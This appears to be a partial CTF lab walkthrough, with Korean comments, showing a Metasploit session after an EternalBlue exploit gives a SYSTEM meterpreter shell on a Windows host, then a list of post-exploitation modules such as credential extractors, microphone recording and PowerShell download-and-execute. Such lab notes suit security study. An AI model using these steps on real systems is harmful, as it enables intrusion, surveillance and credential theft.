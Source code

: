 # CTF 환경 -> local host setting required -> so then WIN!

# ctrl + z | background

# sessions

meterpreter >
Background session 1? [y/N]y
[-] Unknown command: y. Run the help command for more details.
msf exploit(windows/smb/ms17_010_eternalblue) > sessions

# Active sessions

Id Name Type Information Connection

---

1 meterpreter x64/windows NT AUTHORITY\SYSTEM @ JON-PC 10.8.136.212:4444 -> 10.201.21.43:49193 (10.201.21.43)

# 이미 쉘을 얻었으므로 post 그리고 meterpreter 로 업그레이드 하는 모듈 검색하기

# msf exploit(windows/smb/ms17_010_eternalblue) > search type:post meterpreter

---

0 post/windows/manage/archmigrate . normal No Architecture Migrate
1 post/windows/manage/execute_dotnet_assembly . normal No Execute .NET Assembly
2 post/windows/manage/forward_pageant . normal No Forward SSH Agent Requests To Remote Pageant
3 post/windows/manage/make_token . normal No Make Token Command
4 \_ AKA: make_token . . . .
5 \_ AKA: maketoken . . . .
6 post/multi/gather/run_console_rc_file . normal No Multi Gather Run Console Resource File
7 post/multi/gather/multi_command . normal No Multi Gather Run Shell Command Resource File
8 post/multi/gather/ubiquiti_unifi_backup . normal No Multi Gather Ubiquiti UniFi Controller Backup
9 post/multi/manage/autoroute . normal No Multi Manage Network Route via Meterpreter Session
10 post/multi/manage/record_mic . normal No Multi Manage Record Microphone
11 post/multi/manage/screenshare . normal No Multi Manage the screen of the target meterpreter session
12 post/multi/recon/local_exploit_suggester . normal No Multi Recon Local Exploit Suggester
13 post/multi/manage/shell_to_meterpreter . normal No Shell to Meterpreter Upgrade
14 post/windows/gather/arp_scanner . normal No Windows Gather ARP Scanner
15 post/windows/manage/multi_meterpreter_inject . normal No Windows Manage Inject in Memory Multiple Payloads
16 post/windows/manage/powershell/exec_powershell . normal No Windows Manage PowerShell Download and/or Execute
17 post/windows/manage/priv_migrate . normal No Windows Manage Privilege Based Process Migration
18 post/windows/manage/migrate . normal No Windows Manage Process Migration
19 post/windows/manage/exec_powershell . normal No Windows PowerShell Execution Post Module
20 post/windows/gather/credentials/pulse_secure . normal Yes Windows Pulse Secure Connect Client Saved Password Extractor
